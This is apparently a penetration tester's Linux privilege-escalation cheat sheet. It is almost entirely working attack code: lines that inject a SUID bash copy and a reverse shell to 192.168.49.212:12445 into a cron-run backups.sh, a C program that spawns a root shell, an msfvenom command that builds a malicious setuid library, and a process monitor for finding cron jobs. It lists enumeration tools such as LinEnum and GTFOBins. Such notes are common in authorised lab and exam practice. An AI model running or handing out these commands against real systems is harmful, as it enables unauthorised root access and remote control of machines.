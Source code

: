 ### Scripts

### BASH
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> backups.sh

echo 'bash -i >& /dev/tcp/192.168.49.212/12445 0>&1' >> backups.sh
```

#### SUID

```
int main(void){
  setresuid(0, 0, 0);
  system("/bin/bash");
}

# Compile
gcc suid.c -o suid
```
### MSFVENOM LIBRARY Priv Esc
```
msfvenom -p linux/x64/exec -cmd '/bin/bash' -f elf-so -o libmalbec.so PrependSetuid=TRUE
```

#### PS Monitor for cron

```
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
	sleep 1
	old_process=$new_process
done

#PSPY32 for PS monitor
./pspy32 
```

### Linux Privesc Tools

- [GTFOBins](https://gtfobins.github.io/)
- [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- [LinuxExploitSuggester](https://gitlab.com/kalilinux/packages/linux-exploit-suggester/blob/kali/master/Linux_Exploit_Suggester.pl)
- [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)
